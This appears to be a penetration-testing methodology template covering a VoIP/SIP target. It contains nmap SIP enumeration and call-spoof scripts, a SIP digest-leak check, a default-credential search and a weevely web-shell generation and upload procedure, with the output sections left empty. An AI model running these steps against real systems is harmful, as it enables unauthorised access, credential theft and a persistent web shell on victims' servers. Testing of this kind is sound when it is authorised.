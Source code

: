 
**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -sU -T4 -p T:8000,U:5060 --script "sip-methods,sip-enum-users,sip-call-spoof" -sV -oA recon/nmap-${IP}-voip ${IP}
```

```text

```


**Access**

Check for `SIP` digest leak.

```bash
python3 ${TOOLS_DIR}/voip/sippts/sipdigestleak.py -i ${IP}
```

```text

```


### Exploitation


#### Web Exploitation

**Insecure Credentials**

Search default credentials for the tool.

> https://github.com/noraj/DefaultCreds-cheat-sheet

```bash
SEARCH="" ; grep -irn ${SEARCH} /usr/share/wordlists/SecLists/Passwords/Default-Credentials
```

```text

```


Test for credentials which can be guessed.

If any release notes or readme document found, build a wordlist using `cewl` or `wordhound`.


**File Uploads**

Identify file upload page and use Burp to modify request parameters.


Use `weevely` to generate payload and upload it. Use the resulting page to start a session.

```bash
weevely generate test123 weevely.php
SITE="" ; weevely ${SITE}/uploads/weevely.php test123
```
